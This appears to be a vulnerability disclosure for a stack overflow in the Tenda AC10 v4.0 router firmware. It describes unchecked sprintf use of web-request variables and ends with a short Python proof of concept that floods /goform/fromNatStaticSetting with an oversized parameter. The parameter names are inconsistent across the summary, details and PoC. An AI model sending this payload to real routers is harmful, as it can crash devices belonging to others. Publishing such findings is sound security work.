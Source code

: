 # Tenda router sub_49B384 function stack overflow vulnerability

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.20
>
> type:Stack Overflow

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.20 were discovered to contain a stack overflow via the page parameter in the sub_49B384 function.

## Vulnerability Details

In the function, the Websgetvar function is called in line 13 and 14 to obtain a variable named "Entrys" and "Mitinterface" in the Web request, store its values ​​in pointer variable V2 and V4, and then pass the two variables directly to the Sprintf function. Without any length check, this may cause the stack buffer overflow. Therefore, by requesting this page, the attacker can leverage well-designed overflow dataly execute the rejection service attack or remote code execution.

![sub_49B384](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/661309ba-38a0-49c8-b369-10023536b75e)


## POC

    import requests

    IP = "192.168.244.130"
    url = f"http://{IP}/goform/fromNatStaticSetting?"
    url += "entrys=mintinterface=" + "A" * 0x1000

    response = requests.get(url)
